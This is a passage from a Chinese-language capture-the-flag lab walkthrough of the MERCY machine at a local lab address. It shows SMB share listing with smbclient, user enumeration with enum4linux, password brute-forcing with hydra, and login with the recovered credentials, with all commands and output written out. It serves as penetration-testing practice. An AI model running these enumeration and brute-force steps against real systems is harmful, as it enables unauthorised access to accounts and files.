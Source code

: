 大概就是说有一个员工喜欢把 `password` 作为密码

## smb探测

1、通过smbclient命令列出目标靶机中可用的Samba服务共享名

```bash
└─# smbclient -NL  192.168.2.6 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	qiu             Disk      
	IPC$            IPC       IPC Service (MERCY server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
```

2、enum4linux枚举Samba账号

```bash
└─# enum4linux 192.168.2.6 | tee mercysmb.txt
```

并把收集到的用户名作为字典

```bash
└─# cat username.list 
pleadformercy
qiu
thisisasuperduperlonguser
fluffy
```

3、根据上文收集到的用户名，尝试爆破 smb 的 密码

```bash
└─# hydra -L username.list -P/usr/share/wordlists/fasttrack.txt smb://192.168.2.6:139
```

```
[139][smb] host: 192.168.2.6   login: qiu   password: password
```

找到一个用户名密码，`qiu/password`，也可以根据上文中 8080 端口 的信息搜集，推测出密码可能为 `password`

4、smbclient登录

```bash
└─# smbclient \\\\192.168.2.6\\qiu -U qiu
Password for [WORKGROUP\qiu]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Aug 31 15:07:00 2018
  ..                                  D        0  Mon Nov 19 11:59:09 2018
  .bashrc                             H     3637  Sun Aug 26 09:19:34 2018
  .public                            DH        0  Sun Aug 26 10:23:24 2018
  .bash_history                       H      163  Fri Aug 31 15:11:34 2018
  .cache                             DH        0  Fri Aug 31 14:22:05 2018
  .private                           DH        0  Sun Aug 26 12:35:34 2018
  .bash_logout                        H      220  Sun Aug 26 09:19:34 2018
  .profile                            H      675  Sun Aug 26 09:19:34 2018
```
